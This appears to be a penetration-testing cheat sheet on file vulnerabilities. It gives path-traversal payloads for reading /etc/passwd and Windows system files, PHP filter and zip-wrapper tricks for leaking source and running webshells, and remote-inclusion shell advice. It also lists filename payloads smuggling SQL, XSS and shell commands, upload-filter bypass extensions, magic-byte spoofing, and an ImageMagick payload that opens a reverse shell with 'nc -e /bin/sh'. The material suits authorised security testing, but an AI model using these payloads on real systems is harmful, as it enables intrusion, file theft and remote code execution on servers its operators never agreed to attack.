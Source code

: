# File Vulnerabilities

## LFI

local file inclusion happens when it is possible to access files stored on the target's system by passing a relative path to a parameter of a request. The number of "up one level instructions" is irrelevant because once we reach the root level, the additional "go up" instructions will be ignored.

See [LFI List](lfi-list.md) for a list of possible target files for tests

### Payloads

```
#Linux
../../../../../../../../../../../../etc/passwd
#Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

### Importing with file modifiers

Disclose PHP file source code

<pre><code><strong>&#x3C;url>?&#x3C;arg>=php://filter/convert.base64-encode/resource=&#x3C;php file>.php
</strong></code></pre>

Execute webshell from a ZIP file. The webshell extension ca be omitted

```
<url>?<arg>=zip://<path to zip file>%23<webshell>?<args>
```

## RFI

Remote file inclusion happens when an attacker is able to make a web server include and execute files hosted on a different server controlled by the attacker. For instance by making a parameter point to an url of a file such as a reverse shell written in php it is possible to make the server follow the url and execute the shell

See [PHP shells](php-shells.md) for shells to be used in an attack. Keep in mind that these files MUST be stored as .txt files instead of their executable format (.php, .jsp, .asp). If you don't do this the malicious code will be executed on your local server instead of the remote one

#### Payloads

```
www.google.com    #expect to see html code as result
<your url>:<port> #start a listener on the port and see if you receive an HTTP request
```

## File upload functionality

### Filename payloads

```
../../../tmp/evil.png                 #test for LFI
sleep(10)-- -.jpg                     #test for SQLi
<svg onload=alert(document.domain)>   #test for stored XSS
; sleep 10;                           #test for RCE
```

### Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file controls based on MIME type and file signature insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly. Once the file is stored on the server you will have to find a way to edit it back in order to restore its origina behavior when opened

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                  | Mnemonic       | Signature                               |
| -------------------------- | -------------- | --------------------------------------- |
| DOS executable             | "MZ"           | 0x4D 0x5A                               |
| PE32 executable            | "MZ"...."PE.." | 0x4D 0x5A ... 0x50 0x45 0x00 0x00       |
| Mach-O Executable (32 bit) | "FEEDFACE"     | 0xFE 0xED 0xFA 0xCE                     |
| Mach-O Executable (64 bit) | "FEEDFACF"     | 0xFE 0xED 0xFA 0xCF                     |
| ELF Executable             | ".ELF"         | 0x7F 0x45 0x4C 0x46                     |
| Zip Archive                | "PK.."         | 0x50 0x4B 0x03 0x04                     |
| Rar Archive                | "Rar!...."     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00 |
| Ogg Container              | "OggS"         | 0x4F 0x67 0x67 0x53                     |
| Matroska/EBML Container    | N/A            | 0x45 0x1A 0xA3 0xDF                     |
| PNG Image                  | ".PNG...."     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A |
| BMP Image                  | "BM"           | 0x42 0x4D                               |
| GIF Image                  | "GIF87a"       | 0x47 0x49 0x46 0x38 0x37 0x61           |
| GIF Image                  | "GIF89a"       | 0x47 0x49 0x46 0x38 0x39 0x61           |

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```
